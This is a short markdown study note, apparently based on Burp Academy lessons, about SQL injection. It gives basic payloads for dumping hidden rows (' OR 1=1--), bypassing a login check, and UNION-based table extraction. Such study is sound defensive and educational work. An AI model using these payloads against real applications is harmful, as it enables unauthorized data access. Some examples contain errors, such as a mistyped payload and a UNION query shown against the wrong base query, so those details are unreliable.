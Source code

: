 ```yaml
---
title: SQL Injection
date: 2021-11-16T21:07:41+01:00
tags: ['cs/security', 'cs/web', 'cs/databases']
---
```


SQL injection vulnerabilities occur when developers fail to properly sanitise the parameters in an SQL query that are provided by users. You can use SQLi to leak data or mess with an application\'s logic.

## Burp Academy Sections

### Retrieving hidden data

Say a web app runs the following SQL query when the value of the parameter *q* is %s:

``` sql
SELECT * FROM products WHERE category = '%s' AND released = 1
```

When a user sends the request with the parameter `?q=Gifts'`--= the server runs the SQL query:

``` sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

If we want the server to return everything, we can send the request `?q=Gifts'+OR+1=1--`

``` sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

### Messing around with an app\'s logic

When a web application runs an SQL query when it tries log users in, it might use something like:

``` sql
SELECT * FROM users WHERE username = 'yeet' AND password = 'pass'
```

An attacker can bypass such a mechanism by sending a request like `yeet'--` the app runs following SQL query:

``` sql
SELECT * FROM users WHERE username = 'yeet'--' AND password = 'pass'
```

### Getting data from other tables

You can use the operator to retrieve data from other tables. Here is an example for `?q=Gifts' UNION SELECT * FROM users--`

``` sql
SELECT * FROM users WHERE username = 'Gifts' UNION SELECT * FROM users--' AND password = 'pass'
```
